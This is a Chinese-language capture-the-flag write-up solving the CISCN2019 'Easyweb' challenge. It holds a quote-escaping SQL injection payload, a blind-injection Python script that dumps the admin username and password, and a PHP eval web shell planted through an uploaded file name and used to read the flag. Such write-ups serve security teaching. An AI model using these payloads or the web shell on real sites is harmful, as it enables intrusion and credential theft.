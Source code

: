 # [CISCN2019 总决赛 Day2 Web1]Easyweb
![](<./img/Pasted image 20230109083406.png>)

---
首页长这样

![](<./img/Pasted image 20230109083519.png>)

---
发现`robots.txt`

```php
/robots.txt
```

```
User-agent: *
Disallow: *.php.bak
```

访问`/index.php.bak`报`404`

`/image.php.bak`可以正常下载

```php
<?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```

`/config.php.bak`也不存在，大致是要在`image.php`的输入转义和替换这里寻找机会。

`addslashes`的作用
```
'   ==>  \'
"   ==>  \"
\   ==>  \\
NUL ==>  \x00
```

`str_replace`的作用
```
\0  ==>
%00 ==>
\'  ==>
'   ==>
```

由于`str_replace`替换`'`，所以添加`'`走不通

```
   (add_slashes)      (str_replace)
\0 =============> \\0 =============> \
```

由于`0`不被`add_slashes`处理，`\0`被`str_replace`处理，能够制造出单个`\`

如此便能对原有查询字符串中的`'`进行转义。巧的是`image.php`的查询有两个条件`id='{$id}'`和`path='{$path}'`，可以通过上面的方式将`id`的后单引号转义，于是`path`的前单引号成为`id`的后单引号，造成`path`参数的逃逸

构造`payload`

```php
/image.php?id=\0&path=or 1=1#
```

![](<./img/Pasted image 20230109095330.png>)

尝试布尔盲注

```python
import requests
import time
import sys

url = "http://52cd463b-3156-4fa6-b15a-946af9989692.node4.buuoj.cn:81/image.php"

fmt = 'or 0^(ord(substr((select(database())),%d,1))>%d)#'
# false_re = 'exists'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'id': '\\0', 'path': payload}
        response = requests.get(url, params)
        time.sleep(0.1)
        # if response.text.find(false_re) >= 0: # mid >= ans
        if len(response.text) < 100:
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()
```

```
ciscnfinal
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)#'
```

```
information_schema,ciscnfinal,exampleDB,mysql,performance_schema
```

```python
# 不能使用单引号
fmt = 'or 0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=database()),%d,1))>%d)#'
```

```
images,users
```

```python
# 用16进制绕过
fmt = 'or 0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)=0x7573657273),%d,1))>%d)#'
```

```
username,password
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(username))from(ciscnfinal.users)),%d,1))>%d)#'
```

```
admin
```

```python
fmt = 'or 0^(ord(substr((select(group_concat(password))from(ciscnfinal.users)),%d,1))>%d)#'
```

```
0925553b4e6bcb295be9
```

使用账号密码成功登录

![](<./img/Pasted image 20230109114933.png>)

尝试上传木马

```php
<?php eval($_GET['cmd']); ?>
```

```
You cant upload php file.
```

不行QAQ

随便传个文件试试

```
I logged the file name you uploaded to logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php. LOL
```

将文件名写入`log`，尝试对文件名下手

```php
# 不能有空格
<?=eval($_GET['cmd']);?>
```

```
I logged the file name you uploaded to logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php. LOL
```

```php
/logs/upload.71a36304eac669b32d5fbcdb5625c3f7.log.php?cmd=system('cat /flag');
```

```
User admin uploaded file flag{28a33985-0d91-4a24-a911-ccb78bfbe982}
```
